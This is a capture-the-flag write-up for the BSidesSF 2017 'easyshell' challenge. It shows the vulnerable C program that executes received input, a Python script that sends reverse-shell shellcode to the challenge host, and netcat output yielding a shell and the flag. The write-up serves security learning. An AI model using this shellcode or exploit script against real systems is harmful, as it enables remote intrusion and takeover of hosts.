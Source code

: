 ```yaml
---
excerpt: "Upon examining the source code of the easyshell program it becomes clear that whatever is sent to the program will be read into a buffer and executed using the asm()..."
---
```


## Solution

Source: https://raw.githubusercontent.com/fabacab/CTF/master/2017/BSidesSF/pwn/easyshell/README.md

Upon examining the source code of the easyshell program it becomes clear that whatever is sent to the program will be read into a buffer and executed using the asm() C/C++ function used to embed and execute assembler instructions.

```
int main(int argc, char *argv[])
{
  uint8_t *buffer = mmap(NULL, LENGTH, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, 0, 0);
  ssize_t len;

  alarm(10);

  disable_buffering(stdout);
  disable_buffering(stderr);

  printf("Send me stuff!!\n");
  len = read(0, buffer, LENGTH);

  if(len < 0) {
    printf("Error reading!\n");
    exit(1);
  }

  asm("call *%0\n" : :"r"(buffer));

  return 0;
}
```

After experimenting with different kinds of shellcode I decided that a reverse connection was the appropriate approach so I wrote a small python script to send the shellcode. (Shellcode taken from: http://shell-storm.org/shellcode/files/shellcode-833.php)

```
#!/usr/bin/env python

import socket

remote_host = 'easyshell-f7113918.ctf.bsidessf.net'
remote_port = 5252

local_host = "\xc6\xc6\xc6\xc6" # IP
local_port = "\xd9\x03"         # 55555 (Port)

shellcode = "\x68" + local_host + "\x5e\x66\x68" + local_port + "\x5f\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02\x89\xe1\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x66\x56\x66\x57\x66\x6a\x02\x89\xe1\x6a\x10\x51\x53\x89\xe1\xcd\x80\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\xeb\xce"

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    client.connect((remote_host,remote_port))

    data = client.recv(1024)
    print data
    
    client.send(shellcode)
    print "[*] Shellcode sent."

except socket.error, e:
    print e 
```

I ran a netcat listener and upon receiving a connection it succesfully spawned a shell and the flag could be read.
```
Listening on [0.0.0.0] (family 0, port 55555)
Connection from [104.196.247.127] port 55555 [tcp/*] accepted (family 2, sport 33950)
cat /home/ctf/flag.txt
FLAG:c832b461f8772b49f45e6c3906645adb
```
